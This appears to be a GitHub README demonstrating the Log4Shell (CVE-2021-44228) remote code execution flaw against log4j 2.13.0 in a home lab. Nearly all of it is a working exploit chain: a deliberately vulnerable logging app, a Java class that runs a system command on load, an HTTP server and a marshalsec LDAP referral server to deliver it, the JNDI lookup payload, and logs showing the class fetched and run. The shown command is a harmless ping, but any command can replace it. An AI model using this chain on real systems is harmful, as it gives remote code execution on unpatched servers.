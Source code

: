 Thanks for : 

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

https://github.com/mbechler/marshalsec

Okay flow is simple:

When we sent a input to any application, they logs some request for later analysis. apache log4j library used for logging these inputs. We will send a payload and execute codes from apache log4j library during loggin

I tested on "apache-log4j-2.13.0"

first i will create a java vulnerable application. Basicly it gets an input and use that input inside of "logger.error" function

	package log4j;
	import java.util.*;  

	import org.apache.logging.log4j.LogManager;
	import org.apache.logging.log4j.Logger;

	public class main {

		private static final Logger logger = LogManager.getLogger(main.class);
		public static void main(String[] args) {
			Scanner sc= new Scanner(System.in); //System.in is a standard input stream  
			System.out.print("Enter a string: ");  
			String str= sc.nextLine();              //reads string  
			System.out.print("You have entered: "+str);
			logger.error(str);
		}

	}
	
i will craft a special "exploit.java" file for code execution, for test we will make payload to ping somewhere

	└─$ cat exploit.java
	public class exploit {
			static {
					try {
							Runtime.getRuntime().exec("cmd.exe /c ping 192.168.200.101");
					} catch (Exception e) {
							e.printStackTrace();
					}
			}
	}         


Start tcp dump and filter for icmp package

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                  
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

convert "exploit.java" file to "exploit.class" file

	javac exploit.java
	
Now start a simple http server inside of directory

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...


We will start a LDAP server, first java application will reach ldap server and this ldap server will redirect request to HTTP server (192.168.200.101)

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	
We will start vulnerable application and sent a payload like: (ip adress is ldap server ip)

	${jndi:ldap://192.168.200.101:1389/exploit}
	
run test application and give input (we will get and error message but ignore it)

	Enter a string: ${jndi:ldap://192.168.200.101:1389/exploit}
	You have entered: ${jndi:ldap://192.168.200.101:1389/exploit}
	23:40:46.982 [main] ERROR log4j.main - ${jndi:ldap://192.168.200.101:1389/exploit}

first check ldap server, it redirected our HTTP server

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for exploit redirecting to http://192.168.200.101/exploit.class


On HTTP server you can see GET request for payload

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...
	192.168.200.1 - - [12/Dec/2021 15:40:47] "GET /exploit.class HTTP/1.1" 200 -

Check tcpdump and see if there is any ping request

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	15:43:24.801831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 256, length 40
	15:43:24.801917 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 256, length 40
	15:43:25.811859 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 257, length 40
	15:43:25.811904 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 257, length 40
	15:43:26.824831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 258, length 40
	15:43:26.824874 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 258, length 40
	15:43:27.836873 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 259, length 40
	15:43:27.836920 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 259, length 40
